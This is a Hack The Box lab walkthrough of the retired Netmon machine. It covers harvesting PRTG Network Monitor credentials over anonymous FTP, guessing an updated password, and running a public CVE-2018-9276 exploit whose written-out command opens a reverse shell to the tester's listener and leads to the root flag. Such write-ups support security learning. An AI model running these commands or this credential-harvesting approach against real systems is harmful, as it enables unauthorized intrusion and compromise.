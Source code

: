 ```yaml
---
title: "Netmon HTB Walkthrough: Exploiting Anonymous FTP and PRTG Network Monitor RCE for Full System Access"  
description: "Comprehensive walkthrough of the retired Hack The Box machine Netmon, detailing anonymous FTP enumeration, credential extraction from PRTG configuration files, exploiting CVE-2018-9276 for remote code execution, and achieving reverse shell with system privileges."  
pubDate: 'Jun 28 2025'  
heroImage: "../../assets/Hack-The-Box-logo.png"  
---
```


## Overview

Netmon is an easy Windows retired machine on Hack The Box running an outdated version of PRTG Network Monitor. This walkthrough covers how I used anonymous FTP access to gather information and extract credentials from configuration files, leveraged these credentials to exploit a known remote code execution vulnerability (CVE-2018-9276), and ultimately gained a reverse shell on the target to capture both user and root flags.

## Enumeration

Running an Nmap scan with default scripts (`-sC`) and version detection (`-sV`) reveals multiple open services, including FTP with **anonymous access**, and an HTTP service running **PRTG Network Monitor version 18.1.37.13946**. Windows RPC, NetBIOS, and SMB ports are also open, indicating a Windows-based host — likely **Windows Server 2008 R2–2012**.

![Pasted-image-20250627142134.png](../../assets/Pasted-image-20250627142134.png)  

### Exploring the PRTG Network Monitor Web Interface

Navigating to [http://10.10.10.152](http://10.10.10.152) shows the login page for PRTG Network Monitor.

The web server hosts PRTG Network Monitor, but without credentials, further access is blocked. Time to revisit FTP for additional clues.

![Pasted-image-20250627142618.png](../../assets/Pasted-image-20250627142618.png)  

## Foothold

### Anonymous FTP Access

Since FTP allows anonymous access, we reconnect to explore the file system in more depth and search for configuration files or credentials related to PRTG.

![Pasted-image-20250627142943.png](../../assets/Pasted-image-20250627142943.png)  

After logging into the FTP server anonymously, I began enumerating the directory structure. I first listed the contents of the root directory and identified several standard Windows folders such as `inetpub`, `Program Files`, `Users`, and `Windows`.

I navigated into the `Users` directory and found two subdirectories: `Administrator` and `Public`. Attempting to access `Administrator` returned an "Access is denied" error, but access to `Public` was successful.

Inside `Public`, I browsed to the `Desktop` folder, which contained a file named `user.txt` along with a couple of `.lnk` shortcuts related to PRTG. I downloaded the `user.txt` file to retrieve the user flag.

![Pasted-image-20250627143222.png](../../assets/Pasted-image-20250627143222.png)  

After retrieving the `user.txt` flag, I continued exploring the FTP server for more valuable files. I navigated into the `Paessler` directory and then into `PRTG Network Monitor`, where I found several subdirectories and configuration files.

Inside this directory, I successfully downloaded both the `PRTG Configuration.old.bak` and `PRTG Configuration.dat` files. These files typically contain stored credentials and other sensitive configuration data related to the PRTG Network Monitor.

![Pasted-image-20250627145157.png](../../assets/Pasted-image-20250627145157.png)  

After downloading the `PRTG Configuration.old.bak` file, I changed its extension to `.txt` in order to view its contents in a standard text editor. This revealed readable XML-style configuration data.

Within the file, I discovered a commented section containing the default login credentials for the PRTG web interface:

The username was noted as `prtgadmin` in a comment, and the password was shown as `PrTg@dmin2018` under the `<dbpassword>` tag.

![Pasted-image-20250627145112.png](../../assets/Pasted-image-20250627145112.png)  

I returned to the PRTG Network Monitor web interface and attempted to log in using the extracted credentials. However, the login failed, which likely indicates that the password has been changed from the default stored in the configuration file.

![Pasted-image-20250627145349.png](../../assets/Pasted-image-20250627145349.png)  


I then examined the current `PRTG Configuration.dat` file, hoping to find updated credentials. Inside, I located the username `prtgadmin`, but the password field was encrypted and stored as a hash or cipher text.

This suggests the password is no longer in plaintext and is protected, making it unusable without decryption or other exploitation methods.

![Pasted-image-20250627145547.png](../../assets/Pasted-image-20250627145547.png)  

Since the password in the current configuration file was encrypted or hashed rather than stored in plaintext, I opted to guess an updated version of the original password. Using `PrTg@dmin2019`, I was able to successfully log in to the PRTG Network Monitor web interface.

![Pasted-image-20250627151424.png](../../assets/Pasted-image-20250627151424.png)  

## Exploitation

## Exploitation
After confirming the PRTG version as 18.1.37.13946, I researched known vulnerabilities and identified **CVE-2018-9276**. This vulnerability affects PRTG Network Monitor versions prior to 18.2.39 and allows operating system command injection through the sensor or notification management features.

**Important:** This vulnerability requires authenticated access with administrative privileges to the PRTG web console. Once authenticated, an attacker can send specially crafted parameters to execute arbitrary commands on the server.

The vulnerability is rated High (CVSS 7.2) and is included in CISA's Known Exploited Vulnerabilities Catalog, highlighting its relevance in real-world attacks.

I decided to test this publicly available exploit to gain further access.

Exploit: https://github.com/A1vinSmith/CVE-2018-9276

Using the extracted credentials, I ran the **CVE-2018-9276** exploit against the PRTG Network Monitor instance on port 80 with the following command:

`sudo python3 exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.21 --lport 4444 --user prtgadmin --password PrTg@dmin2019`

The exploit successfully staged a payload and obtained a session as the prtgadmin user. The payload was uploaded to C:\Users\Public\tester.txt and executed via the PRTG notification feature.

I set up a listener on my attack machine, and shortly after triggering the exploit, I received an incoming connection on 10.10.14.21:4444, indicating successful code execution and shell access.
![Pasted-image-20250627153743.png](../../assets/Pasted-image-20250627153743.png)  

After running the exploit and setting up a listener on my machine, I successfully received a reverse shell connection from the target. Upon connecting, I verified that I had access to the `C:\Windows\System32` directory, confirming a shell with significant system privileges as the `prtgadmin` user on the Windows machine.

![Pasted-image-20250627153828.png](../../assets/Pasted-image-20250627153828.png)  


After gaining shell access, I navigated to the `C:\Users\Administrator\Desktop` directory and displayed the contents of `root.txt` by running:

`type C:\Users\Administrator\Desktop\root.txt`

This revealed the root flag, confirming full system compromise and successful privilege escalation.

![Pasted-image-20250627154045.png](../../assets/Pasted-image-20250627154045.png)

This box demonstrates the importance of proper credential management and patching critical vulnerabilities. By exploiting anonymous FTP misconfigurations, I accessed sensitive PRTG configuration files containing login credentials. Using these credentials, I exploited a known RCE vulnerability to gain remote shell access. Finally, I escalated privileges to retrieve the root flag, completing the challenge.

Netmon highlights common attack vectors against outdated software and poorly secured services, making it a valuable exercise in real-world penetration testing.




